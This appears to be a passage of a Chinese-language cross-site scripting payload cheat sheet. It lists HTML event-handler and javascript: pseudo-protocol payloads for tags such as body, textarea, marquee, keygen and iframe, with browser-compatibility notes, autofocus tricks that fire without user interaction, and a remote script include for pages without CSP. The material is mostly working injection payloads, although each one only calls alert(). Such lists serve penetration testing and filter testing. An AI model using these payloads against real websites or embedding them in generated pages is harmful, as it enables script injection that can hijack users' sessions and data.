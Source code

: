 ```xml
<audio src=x  onerror=alert("xss");>
```

 `<body>`

```bash
<body/onload=alert("xss");>
```

利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

```xml
<body
onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
```

 `<textarea>`

```xml
<textarea onfocus=alert("xss"); autofocus>
```

 `<keygen>`

```xml
<keygen autofocus onfocus=alert(1)> //仅限火狐
```

 `<marquee>`

```xml
<marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以
```

 `<isindex>`

```xml
<isindex type=image src=1 onerror=alert("xss")>//仅限于IE
```

### 利用link远程包含js文件

**PS：在无CSP的情况下才可以**

```xml
<link rel=import href="http://127.0.0.1/1.js">
```

### javascript伪协议

`<a>`标签

```xml
<a href="javascript:alert(`xss`);">xss</a>
```

`<iframe>`标签

```xml
<iframe src=javascript:alert('xss');></iframe>
```
